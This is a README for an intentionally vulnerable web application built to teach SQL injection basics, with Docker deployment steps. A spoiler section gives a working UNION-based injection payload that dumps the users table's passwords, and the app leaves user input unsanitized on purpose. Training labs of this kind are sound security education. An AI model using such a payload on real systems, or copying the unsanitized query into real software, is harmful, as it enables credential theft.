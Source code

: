 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
<summary> :warning: Contains spoilers !</summary>
<br />
Here is an example of a working payload, esposing all passwords in the table:<br /><br />


```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :


```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
</details>
